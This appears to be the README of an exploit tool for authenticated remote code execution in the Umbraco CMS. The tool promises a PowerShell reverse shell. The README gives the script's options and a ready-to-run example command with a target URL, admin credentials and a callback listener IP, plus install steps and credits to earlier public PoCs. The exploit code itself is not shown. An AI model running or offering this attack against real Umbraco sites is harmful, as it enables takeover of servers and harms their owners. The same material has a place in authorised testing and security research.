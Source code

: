 # Umbraco RCE PowerShell Reverse Shell PoC

## Usage
```
usage: exploit.py [-h] -u USER -p PASS -w URL -i IP [-o PORT]

Umbraco authenticated RCE

optional arguments:
  -h, --help                 show this help message and exit
  -u USER, --user USER       Username / Email
  -p PASS, --password PASS   Login password
  -w URL, --website-url URL  Root URL
  -i IP, --ip IP             IP address of callback listener
```
Examples:
```
python exploit.py -u admin@example.org -p password123 -w 'http://remote.website/' -i 10.10.10.1
```

## Requirements
To install dependencies:
```
pip install -r requirements.txt
```

## Reference
This is a touch-up of [noraj's PoC](https://github.com/noraj/Umbraco-RCE/) which is based off [EDB-ID-46153](https://www.exploit-db.com/exploits/46153).  
This version provides a PowerShell reverse shell upon execution.